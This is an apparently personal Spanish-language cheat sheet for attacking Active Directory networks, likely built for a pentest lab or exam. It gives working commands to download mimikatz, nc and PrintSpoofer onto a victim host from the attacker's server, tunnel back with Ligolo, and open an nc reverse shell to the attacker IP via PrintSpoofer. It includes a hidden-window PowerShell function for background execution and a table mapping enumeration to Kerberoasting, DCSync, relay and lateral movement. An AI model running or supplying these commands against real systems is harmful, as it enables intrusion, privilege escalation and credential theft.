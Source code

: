 ### Descargar en victima tools

- **Comprimir archivos en zip**

* Opcion 1:
```bash
cd fwindows/     # dentro de la carpeta que tiene todo
zip -r ../tools.zip * 
```

* Opcion 2:
```bash
zip -r tools.zip agent.exe nc.exe PrintSpoofer64.exe mimikatz.exe PowerView.ps1 SharpHound.ps1
```

* Descarga
```powershell
iwr -uri http://192.168.45.152:8000/<selected_tools>.zip -Outfile <tools>.zip
```

* **Descomprimir**

```bash
Expand-Archive tools.zip -DestinationPath .
```

#### Executor

```bash
. .\Executor.ps1
```

### Enumerar
1. Ligolo tunel

```bash
# Kali
ligolo-proxy -selfcert -laddr 0.0.0.0:11601 -v

session

autoroute

# Agregar listener
listener_add --addr <ip_destino:puerto> --to <ip_kali:puerto> --tcp

# victim

Invoke-Ligolo -ip <kali_ip>

.\agent.exe -connect <kali-ip>:11601 -ignore-cert

```

2. bloodhound

```bash
bloodhound-python -u <user> -p <password> -d <domain> -c All -ns <ip> --zip
```

#### Active Directory

[Active-Directory-Exploitation-Cheat-Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)

#### Mapa asociativo: Enumeración → Ataque → Movimiento Lateral

| Enumeración (izq)                                                 |                                              Ataque (centro) | Movimiento lateral (der)                                                                  |
| ----------------------------------------------------------------- | -----------------------------------------------------------: | ----------------------------------------------------------------------------------------- |
| Enumeración de SPNs                                               |                                                Kerberoasting | Uso de credenciales de servicio para **WinRM / RDP**                                      |
| Detección de cuentas con Kerberos pre-auth deshabilitado (AS-REP) |                                              AS-REP Roasting | Acceso con credenciales recuperadas → **SMB / PsExec / WinRM**                            |
| Enumeración de usuarios y grupos                                  |                              Password spraying / brute-force | Acceso con credenciales válidas → **RDP / WinRM / SMB**                                   |
| Enumeración de ACLs sobre objetos AD                              |                Abuse de ACLs (escalada de permisos) / DCSync | Obtención de hashes/credenciales → **PsExec / Scheduled Tasks / Remote Service**          |
| Descubrimiento de controladores de dominio / DNS (DC discovery)   |              Exploits en DC / ataques a servicios de dominio | Compromiso del DC → dominio pivot → **lateral a hosts críticos**                          |
| Recolección con BloodHound / SharpHound                           | Identificación de rutas de ataque (paths) → Delegation abuse | Abuso de delegación (constrained/unconstrained) → **Pass-the-Ticket / RDP**               |
| Enumeración de servicios y SPNs vinculados a cuentas de servicio  |                 Kerberoasting / abuso de cuentas de servicio | Uso de cuenta de servicio para **SMB/WinRM** lateral                                      |
| Enumeración de AD CS / plantillas de certificados                 |                           AD CS / Certificate issuance abuse | Emisión de credenciales/certificados → autenticación lateral (**WinRM / LDAP over TLS**)  |
| Enumeración de shares SMB / permisos de archivos                  |                                       NTLM relay / SMB relay | Relay para acceso a servicios remotos → **creación de servicio remoto / lateral por SMB** |
| Enumeración de GPOs y scripts de arranque                         |                        Abuso de GPOs (startup/login scripts) | Inyección de payloads en GPO → **ejecución remota / lateral mediante Scheduled Tasks**    |
| Detección de cuentas de servicio con contraseñas repetidas        |                        Credential reuse / credential dumping | Reutilizar credenciales para **PsExec / RDP / WinRM**                                     |
| Enumeración de políticas de bloqueo/contraseña                    |                Password spraying optimizado / timing attacks | Obtención de acceso persistente → **token impersonation / pivoting**                      |


#### sync DC

```bash
ntpdate <dc-ip>
```

#### bloodyAD

[BloodyAD Cheatsheet](https://seriotonctf.github.io/BloodyAD-Cheatsheet/index.html)


#### Certipy

[Ceripy Cheatsheet](https://seriotonctf.github.io/ADCS-Attacks-with-Certipy/index.html)


#### PowerView

[PowerView CheatSheet-1]( https://1337skills.com/cheatsheets/powerview/#basic-usage)


#### Lateral Movement

* **Evil-Winrm**

#### Printer

```powershell
.\PrintSpoofer64.exe -c "C:\Users\eric.wallows\Documents\nc.exe 192.168.45.152 4444 -e cmd"

Invoke-PrintSpoofer -ip <ip>
```

#### Ejecucion en segundo plano

* Funcion

```powershell
function bg_exec($cmd) {
    Start-Process -WindowStyle Hidden -FilePath "powershell.exe" -ArgumentList "-nop -w hidden -c $cmd"
}
```
* ligolo:
```powershell
bg_exec "C:\Users\eric.wallows\Documents\agent.exe -connect 192.168.45.152:11601 -ignore-cert"
```

#### Help:

```bash
. .\Executor.ps1 -h
```

### Shell upgrade (ver Utils)

```bash 
SHELL=/bin/bash script -q /dev/null
```

#### EP

```bash
Set-ExecutionPolicy RemoteSigned –Scope Process
```
